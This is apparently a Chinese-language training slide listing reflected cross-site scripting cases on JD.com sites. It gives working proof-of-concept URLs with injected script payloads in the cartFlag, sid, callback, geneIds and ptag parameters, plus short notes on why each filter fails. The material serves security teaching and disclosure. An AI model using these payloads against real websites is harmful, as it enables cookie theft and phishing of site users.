

XSS跨站脚本攻击——反射型XSS案例
ware/view.action sid参数存在XSS
3
m.jd.com 反射型XSS
1
https://m.jd.com/sale/mall/L8NkyPfbYdM.html?cartFlag=1'-alert(1)-'

漏洞详情
cartFlag回显在script代码单引号中，未过滤单引号
http://item.m.jd.com/ware/view.action?babelchannel=356440&clickurl=&lat=40.852811&lng=111.665664&sid=0573cbd07f7326a8c3ff7f3b0367e1cw" onmouseover=prompt(930864) bad="&un_area=5_258_41500_41902&wareid=11771549879

fd.3.cn反射型XSS
4
m.jd.com/share/myGene.action geneIds字段存在XSS漏洞

2
https://fd.3.cn/cesu/r?pid=787&os=other&apn=unknown&wq_area=2_2830_0|3&_=1.5445209956482442&s1=24&s2=198&s3=157&s4=381&ext=1280,8002&callback=xxx<img src=x onerror=alert('xss')>

https://m.jd.com/share/myGene.action?from=singlemessage&geneIds=alert(1)&headImg=https%3A%2F%2Fm.360buyimg.com%2Fmobilecms%2Fs213x213_jfs%2Ft1603%2F244%2F83996262%2F6654%2Ffbee9beb%2F5555c980N4508a431.png%21q70.jpg&pin=Ym96aG91OTczNTU2Mzcx&sex=2&sourcetype=mystreetshare&utm_campaign=t_335139774&utm_medium=appshare&utm_source=androidapp&utm_term=Wxfriends

漏洞详情
geneIds回显在script代码引号外，可直接构造javascript代码，可导致窃取cookie、钓鱼等危害。

wq.jd.com/mcoss/keyword/keywordsearch 反射型XSS漏洞
5
https://wq.jd.com/mcoss/keyword/keywordsearch?cgid1=10,15,50&cgid2=56,15&cgid3=112,17&options=1&pc=20&pi=1&ptag=1.1.1.1<svg/onload=alert(1)>&ruleid=1